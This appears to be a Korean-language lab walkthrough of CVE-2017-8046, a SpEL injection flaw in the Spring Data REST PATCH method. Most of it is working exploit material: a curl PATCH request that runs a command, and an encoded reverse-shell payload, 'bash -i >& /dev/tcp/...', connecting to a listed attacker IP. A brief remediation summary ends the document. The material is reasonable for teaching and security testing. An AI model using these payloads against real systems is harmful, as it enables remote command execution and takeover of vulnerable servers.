

# CVE-2017-8046

### 요약

- Spring Data REST는 Spring Data 위에 구축되어 개발자가 REST 스타일의 웹 서비스를 더 쉽게 개발할 수 있도록 도와주는 프레임워크
- REST API의 Patch 메소드에서 path의 값이 `setValue`로 전달되어 SpEL 표현식이 실행되면서 원격 명령 실행 취약점이 발생

### 환경 구성 및 실행

- `docker compose up -d`를 실행하여 테스트 환경을 실행
- `http://your-ip:8080/`에 접속하여 json 형식의 반환값 확인 → Restful 스타일의 API 서버임을 확인
- `http://your-ip:8080/customers/1`에 접속하여 리소스 확인
- `apt install curl`커맨드로 curl 설치
- `curl -X PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]' http://your-ip:8080/customers/1`을 입력하여 SpEL 주입(touch /tmp/success)
    
    
    
    
    
- 리버스 쉘 명령어 구성 → base64로 인코딩 → ASCII 코드로 변환 → 익스플로잇 페이로드 구성
    - bash -i >& /dev/tcp/attacker-IP/8888 0>&1 → bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjQuMjAzLjUvODg4OCAwPiYx}|{base64,-d}|{bash,-i}
    - 해당 문서에서 attacker-IP는 172.24.203.5를 사용
    - 98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,78,122,73,117,77,106,81,117,77,106,65,122,76,106,85,118,79,68,103,52,79,67,65,119,80,105,89,120,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
    - 최종 페이로드
        - [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,78,122,73,117,77,106,81,117,77,106,65,122,76,106,85,118,79,68,103,52,79,67,65,119,80,105,89,120,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]
- `curl -X PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,78,122,73,117,77,106,81,117,77,106,65,122,76,106,85,118,79,68,103,52,79,67,65,119,80,105,89,120,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]' http://your-ip:8080/customers/1`을 입력하여 익스플로잇 전송
    
    
    
    
    

### 정리

- Spring Data REST의 Patch 메소드 취약점으로 인해 공격자가 SpEL을 삽입하여 임의의 명령을 실행할 수 있다. 신뢰할 수 없는 사용자 입력값을 적절히 검증하고, 최신 버전으로 패치하여 이 취약점을 해결해야 한다. 또한 불필요한 기능은 비활성화하는 것이 좋다.